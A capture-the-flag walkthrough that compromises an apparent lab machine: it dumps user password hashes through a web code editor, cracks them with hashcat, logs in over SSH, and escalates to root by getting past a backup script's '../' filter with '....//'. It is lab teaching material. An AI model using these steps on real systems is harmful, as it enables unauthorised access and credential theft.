Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.62
```



Let's go to the site



Let's register an account



Now there is a `My Codes` button, when clicked, a page with saved codes opens, which we can open or delete






Let's assume that we can execute commands at the system level and there is a data model `User`. Let's try to print the first record in the table
```Python
print(User.query.first())
```



It worked! Let's try to print the id, users and their passwords
```Python
print([(user.id, user.username, user.password) for user in User.query.all()])
```



This Python code does the following:
1. Working with the database via ORM:
- `User.query.all()` is a typical ORM query (e.g. SQLAlchemy) to get all records from the table associated with the `User` model.
1. Creating a list of tuples:
- The list generator `[(user.id, ...) for user in ...]` forms tuples for each user, containing:
- `user.id` - a unique user identifier
- `user.username` - user login
- `user.password` - password (usually hashed)
There are password hashes for users `development` and `martin`
```Hashes
development:759b74ce43947f5f4c91aeddc3e5bad3
martin:3de6f30c4a09c27fc71932bfc68474be
```
Crack these hashes
```bash
hashcat -m 0 martin /usr/share/wordlists/rockyou.txt
```
We get passwords
```Passwords
development:development
martin:nafeelswordsmaster
```
We were able to connect via SSH only to Martin with this password:
```Password
nafeelswordsmaster
```



This time there is no user flag in our user's home directory. But most likely it is in the directory of another user to whom we do not have access.

We can execute the `sudo` command only for the script `/usr/bin/backy.sh`



<div style="page-break-after: always;"></div>

```bash
#!/bin/bash
if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi
json_file="$1"
if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi
allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
/usr/bin/echo "$updated_json" > "$json_file"
directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')
is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}
for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```
The script takes a JSON file (`task.json`) to decide which files to back up. It runs with root privileges (`sudo`), which means it has the ability to access restricted files. It only allows you to back up files from specific folders (`/var/` and `/home/`), but maybe we can trick it.
Open `task.json`



Replace `directories_to_archive` with the path to the first flag. Most likely it is located at `/home/app-production/user.txt`



An archive has appeared that needs to be unpacked. After unpacking, we see a backup of the flag
```bash
tar -xjf code_home_app-production_user.txt_2025_March.tar.bz2
```



Now let's try to backup the flag `root.txt`, which usually has the path `/root/root.txt`. Since the script can only back up files from certain folders (`/var/` and `/home/`), we'll trick it by writing the path `/var/../root/`






The script deleted `../`. Let's try writing the path `/var/....//root/`






For some reason, the archive is empty. Let's try to remove `exclude`






